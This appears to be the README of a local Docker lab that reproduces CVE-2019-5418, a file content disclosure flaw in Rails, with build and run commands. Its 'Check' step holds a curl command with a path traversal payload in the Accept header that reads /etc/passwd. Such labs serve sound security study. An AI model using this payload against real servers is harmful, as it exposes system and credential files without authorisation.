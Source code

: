 # Rails

This code is based on [https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/](https://chybeta.github.io/2019/03/16/Analysis-for%E3%80%90CVE-2019-5418%E3%80%91File-Content-Disclosure-on-Rails/).

Start in this directory (be sure the port 8896 is not used, otherwise change it):

```
docker build -t rails_fi_app . && docker run -d -p 127.0.0.1:8896:3000 -v "$(pwd)"/app:/myapp rails_fi_app
```

Next you can go to [127.0.0.1:8896](127.0.0.1:8896) to see the running rails application.

# Check

```
curl -X GET -H 'Accept: ../../../../../../../etc/passwd{{' http://localhost:8896/fileinclusion
```
